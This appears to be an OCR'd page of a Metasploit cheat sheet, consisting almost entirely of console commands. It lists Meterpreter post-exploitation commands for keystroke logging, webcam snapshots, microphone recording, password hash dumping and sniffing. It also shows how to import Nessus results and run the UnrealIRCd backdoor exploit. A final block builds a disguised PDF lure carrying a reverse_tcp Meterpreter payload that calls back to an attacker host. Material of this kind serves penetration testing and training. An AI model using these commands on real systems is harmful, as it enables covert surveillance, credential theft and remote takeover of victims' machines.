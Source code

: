 Various Helpful Meterpreter Commands:

```text
meterpreter >getpid
meterpreter >getuid
meterpreter >execute -f
meterpreter >kill 3152
meterpreter >shell
meterpreter >dir
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
meterpreter > webcam_list
meterpreter >webcam_snap
meterpreter >record_mic
meterpreter >hashdump
meterpreter >loadsniffer
```

Nessus - Import Results:

```text
msf > db_import /root/Nessus/nessus_scan.nbe
msf > hosts
msf > services 172.16.194.172
msf > vulns -p 139
msf > vulns -p 22
msf > search cve:2010-2075
msf  exploit(unreal_ircd_3281_backdoor) > exploit
```

Running Nessus from within MSF:

```text
msf > load nessus
msf > nessus_connect dook:s3cr3t@192.168.1.100
msf > nessus_policy_list
msf > nessus_scan_new
msf > nessus_scan_status
msf > nessus_report_list
msf > nessus_report_get
msf > nessus_report_get 9d337e9b-82c7-89a1-a194-4ef154b82f624de2444e6ad18a1f
msf > hosts -c address,vulns
```

Client Side Exploits:

```text
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set FILENAME BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 192.168.8.128
msf exploit(adobe_utilprintf) > set LPORT 4455
msf exploit(adobe_utilprintf) > show options
msf exploit(adobe_utilprintf) > exploit
```
